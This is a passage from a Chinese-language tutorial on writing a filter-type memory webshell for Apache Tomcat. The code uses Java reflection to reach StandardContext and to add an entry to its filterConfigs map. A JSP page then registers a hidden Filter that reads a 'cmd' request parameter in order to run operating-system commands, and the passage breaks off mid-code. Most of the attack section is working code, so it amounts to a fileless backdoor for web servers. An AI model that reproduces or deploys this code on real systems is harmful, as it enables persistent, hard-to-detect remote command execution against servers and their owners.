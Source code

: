 2.获取到filterConfigs并修改

filterConfigs中存的是filter名和filterConfig的Entry

```java
Field configs = standardContext.getClass().getDeclaredField("filterConfigs");
    configs.setAccessible(true);
    Map filterConfigs=(Map)configs.get(standardContext);
    filterConfigs.put("test",filterConfig);
```



##### 小总结

有了以上这些知识,就可以尝试自己写出filter型的内存马了

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>

<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.InputStreamReader" %>

<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<html>
<head>
    <title>Title</title>
</head>
<body>

<%
    //首先通过反射获取到context

    ServletContext servletContext = request.getSession().getServletContext();
    Class<? extends ServletContext> aClass = servletContext.getClass();
    Field appContext = aClass.getDeclaredField("context");
    appContext.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContext.get(servletContext);
    Field stdContext = applicationContext.getClass().getDeclaredField("context");
    stdContext.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdContext.get(applicationContext);


    Filter filter = new Filter() {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {

        }

        @Override
        public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
            String cmd = request.getParameter("cmd");
            StringBuffer res = new StringBuffer();
            //加一个系统的判断
            String os = System.getProperty("os.name");
            boolean isWin = false;
            BufferedReader bufferedReader;
```